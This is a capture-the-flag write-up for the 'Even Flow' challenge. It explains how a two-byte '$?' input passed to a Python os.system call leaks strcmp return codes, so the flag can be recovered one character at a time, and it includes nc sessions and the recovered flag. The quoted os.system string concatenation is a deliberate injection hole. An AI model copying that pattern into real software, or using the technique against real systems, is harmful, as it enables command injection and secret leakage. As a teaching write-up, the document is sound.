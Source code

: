 # Even Flow

* **Category**: Pwn
* **Description**: _Do you like shell command injection?_

This was a shell command injection exploit (as can be told by the description), that required some creativity.

## Observing the source

Thankfully, we are given the source code, which is a Python file, as well as another binary written in C, with its source code in the comments:

The notable lines of the Python code and C code are:

```c
fread(buffer, 1, file_size, fd);
return strcmp(buffer, argv[1]);
```

```python
shell = sys.stdin.read(2)
assert(re.match("^[a-zA-Z0-9_{}]+$", flag) is not None)
os.system("./evenflow " + flag + "; echo \"" + shell + "\"")
```

We see that the injection points at `flag` and `shell` differ quite a lot. The first injection point is rather well protected since we can't inject semicolons, operators like `&` or `|`, and so on, and the second injection point is limited to two bytes.

## Shell variables

What can you do with two bytes? The first thing that comes to mind is shell variables, like `$1`, which is similar to `argv[1]` in C, and `$?` which gives the return code of the last command.

In particular, we are interested in `$?`, since when we use it with some input we can observe a nice pattern:

```sh
$ nc ctf.pwn.sg 1601
Flag: A
Shell: $?
2
$ nc ctf.pwn.sg 1601
Flag: B
Shell: $?
1
$ nc ctf.pwn.sg 1601
Flag: D
Shell: $?
255
$ nc ctf.pwn.sg 1601
Flag: E
Shell: $?
254
```

It looks like it's leaking the value of the flag, since we can guess it most likely begins with `CrossCTF{`.

## `strcmp`

We can dig deeper. We know that `strcmp()` performs string comparison byte for byte, and behaves as such:

* Returns 0: `s1` and `s2` are equal
* Positive integer: The stopping character in `s1` is less than `s2`
* Negative integer: The stopping character in `s1` is more than `s2`

Assuming an 8-bit integer in 2's complement, this means that the value of `255` from above is actually a negative integer in C (which corresponds to `-1`), `254` corresponding to `-2`, etc. This means that in this particular implementation of `strcmp()`, the distance between the stopping characters is being returned.

This means by passing in a string into the first input where we know that all characters except that the last are correct, the return value from the input above would give us the _distance of the char code of the actual character from our character, modulo 256_ (this is a useful property of 2's complement, which I hadn't realised before this).

## Scripting

With that done, we can enumerate every single character of the flag, using `A` as our test character. The script can be found [here](https://github.com/irvinlim/crossctf-2018-quals/blob/master/pwn/evenflow/pwn.py).

```sh
$ python exploit.py
[*] Reading characters: ..........................................
[*] The flag is: CrossCTF{I_just_want_someone_to_say_to_me}
```
